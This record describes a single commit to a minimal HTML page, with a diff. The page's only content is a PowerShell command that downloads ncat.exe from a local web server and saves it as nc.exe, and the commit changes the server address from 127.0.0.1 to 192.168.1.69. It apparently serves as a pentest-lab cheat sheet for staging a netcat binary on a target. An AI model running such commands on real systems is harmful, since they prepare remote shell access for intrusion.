

Before and after one commit to Jesus-c-dot/aa, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (0-1085 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -6,7 +6,7 @@
 </head>
 <body>
 
-    <h2>powershell -c "Invoke-WebRequest -Uri 'http://127.0.0.1:8000/Nmap/ncat.exe' -OutFile 'nc.exe'"</h2>
+    <h2>powershell -c "Invoke-WebRequest -Uri 'http://192.168.1.69:8000/Nmap/ncat.exe' -OutFile 'nc.exe'"</h2>
 
 </body>
 </html>
```
